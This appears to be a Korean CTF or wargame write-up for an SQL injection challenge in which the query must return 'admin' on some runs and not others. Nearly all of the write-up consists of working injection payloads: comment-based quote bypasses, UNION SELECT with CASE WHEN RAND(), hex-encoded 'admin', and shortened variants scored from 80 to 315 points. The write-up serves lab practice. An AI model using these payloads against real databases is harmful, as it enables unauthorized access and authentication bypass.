

# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

***

# **Description**

# **Write-Up**

다음을 유의하며 쿼리를 짜야한다.

1. query는 작은 따옴표가 없고 query2는 작은 따옴표가 존재한다.

2. query의 결과가 admin이면서 admin이 아니여야한다. 즉, 쿼리 실행 시 마다 결과가 달라져야 한다.

1번은 주석을 통해 우회하고, 2번은 IF를 사용할 수 없으며로 CASE WHEN THEN END절과 RAND를 이용한다.

    /*' UNION SELECT CASE WHEN RAND()>0.5 THEN 0x61646d696e END "id"%23'*/1 UNION SELECT CASE WHEN RAND()>0.5 THEN 0x61646d696e END "id"

RAND를 이용하기 때문에 모든 조건문을 통과할 때까지 새로고침을 눌러준다.

    80점 쿼리 : /*' UNION SELECT CASE WHEN RAND()>0.5THEN 0x61646d696e END id%23'*/1 UNION SELECT CASE WHEN RAND()>0.5THEN 0x61646d696e END id

    90점 쿼리 : /*'UNION SELECT CASE WHEN RAND()>0.5THEN 0x61646d696e END id%23*/1 UNION SELECT CASE WHEN RAND()>0.5THEN 0x61646d696e END id

    100점 쿼리 : /*'UNION SELECT CASE WHEN RAND()>.5THEN 0x61646d696e END id%23*/1 UNION SELECT CASE WHEN RAND()>.5THEN 0x61646d696e END id

    130점 쿼리 : /*'UNION SELECT CASE WHEN RAND()>.5THEN 0x61646d696e END%23*/1 UNION SELECT CASE WHEN RAND()>.5THEN 0x61646d696e END

    175점 쿼리 : 0 union select replace(round(rand()),1,0x61646d696e)%23'union select replace(round(rand()),1,0x61646d696e)%23

    315점 쿼리 : 0 union select elt(rand()*2,@a:=0x61646d696e)%23'union select elt(rand()*2,@a)%23